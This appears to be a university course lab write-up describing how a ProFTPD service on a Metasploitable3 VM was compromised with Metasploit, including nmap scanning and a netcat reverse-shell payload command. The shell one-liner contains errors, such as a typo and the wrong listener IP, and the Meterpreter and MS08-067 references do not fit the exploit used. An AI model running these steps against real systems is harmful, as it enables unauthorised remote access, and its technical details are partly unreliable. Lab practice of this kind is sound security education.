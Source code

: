 # Phase 1 – Setup and Compromise of a Vulnerable Service

This phase focused on preparing the environment and compromising a vulnerable service using both **Metasploit** and a **custom script**. It reflects hands-on penetration testing and offensive security skills, performed in a safe and isolated environment.

---

## Disclaimer
This guide is created **strictly for educational purposes** within the scope of the KFUPM ICS344 course. Attempting to compromise systems without proper authorization is illegal and unethical.

---

## Objectives

- Set up Metasploitable3 (Victim) and Kali Linux (Attacker)
- Verify connectivity and identify open ports/services
- Exploit a vulnerable service using Metasploit
- Build and execute a **custom exploit script**
- Document all steps and commands used

---

## Victim Environment: Metasploitable3

### Setup Steps

1. **Download and then launch the imported Metasploitable 3 VM**  
   [Metasploitable3 Ubuntu 14.04 Upgraded Version](https://sourceforge.net/projects/metasploitable3-ub1404upgraded/files/)  

2. **Login:**  
   Username: `vagrant`  
   Password: `vagrant`
   

---

## Attacker Environment: Kali Linux

### Initial Setup & Updates  
 ```bash
   sudo apt update && sudo apt upgrade -y
   ```
---

## Ensuring Connectivity Between VMs

### Get victim machine IP:  
Run inside Metasploitable3:
```bash
ipconfig
```

### Get attacker machine IP:  
Run inside Kali:
```bash
ip a
```

### Test connectivity: 
```bash
ping 192.168.56.101   
```

![image](https://github.com/user-attachments/assets/2277bcbe-8b33-4d3e-b34e-4a36e0c0e326)

---

## Port Scanning with Nmap  
```bash
nmap -sV 192.168.56.101
```

Sample Output Snippet:

![image](https://github.com/user-attachments/assets/3e1945ac-9c08-4186-b615-5cbc3e4157b1)


---

## Selected Service: ftp (port 21)

Due to its history of vulnerabilities and real-world relevance , we selected **ftp** for this attack phase.

---

## Exploitation using Metasploit

### Launch Metasploit Console: 
```bash
sudo msfconsole
```

### Search services available for exploitation:
```bash
search proftpd
```

![image](https://github.com/user-attachments/assets/ec755932-aafb-48a2-b310-7f6655256c60)


### Load ftp Exploit Module:  
```bash
use exploit/unix/ftp/proftpd_modcopy_exec
```


### Check required options for exploitation:  
```bash
show options
```


![image](https://github.com/user-attachments/assets/081249f6-fa57-4fc0-9be2-f3dab5b0690e)


### Set required options:  
```bash
set RHOSTS 192.168.56.101  
set SITEPATH /var/www/html   
set AllowNoCleanup true
```

### Check and select an available payload:  
```bash
show payloads
```

```bash
set payload cmd/unix/generic
```

![image](https://github.com/user-attachments/assets/9fab42b1-3257-4d65-9c92-2ceae54f8546)


### Check required options for payload: 
```bash
show payload options
```

![image](https://github.com/user-attachments/assets/45ea9953-3f70-4c0b-b52e-459e4520024a)


### Set required payload options:    
```bash
set cmd rm /tmp/f;mkfifo /tmp/f; ca /tmp/f | /bin/sh -i 2>&1 | nc 192.168.56.101 4444 > /tmp/f
```


### Start listening from the victim machine:

![image](https://github.com/user-attachments/assets/e3dd1956-ee44-456b-82a1-06a62149ef8c)


### Exploit!  
```bash
run
```

### Verify access:

![image](https://github.com/user-attachments/assets/2a63233c-c97f-4522-9169-aec7a06f986b)


 If successful, a Meterpreter session is opened, providing full access.

---

## Custom Exploitation Script

We wrote a **Python script** to automate the attack for demonstration.

### Connect to the victim's ftp:

![image](https://github.com/user-attachments/assets/57344a02-0df7-470e-85c9-dcaae6ead95c)

### Run the script: 

![image](https://github.com/user-attachments/assets/04aef6fc-55a9-4443-8470-f39915c966a6)


---



## Challenges Faced

- Issues with Metasploitable3 provisioning on some hardware
- Initial network misconfiguration between VMs
- Failing to open sessions after using the `run` command
---

## Summary

| Task                        | Status       |
|-----------------------------|--------------|
| Metasploitable3 setup       |  Done      |
| Kali Linux setup            |  Done      |
| Service enumeration (Nmap)  |  Done      |
| Metasploit attack           |  Success   |
| Custom script creation      |  Tested    |
| Screenshots, script, and documentation | Attached |

---

## References

- [Metasploit Framework](https://www.metasploit.com/)
- [Rapid7 Guide on Metasploitable3](https://github.com/rapid7/metasploitable3)
- [MS08-067 Vulnerability](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)
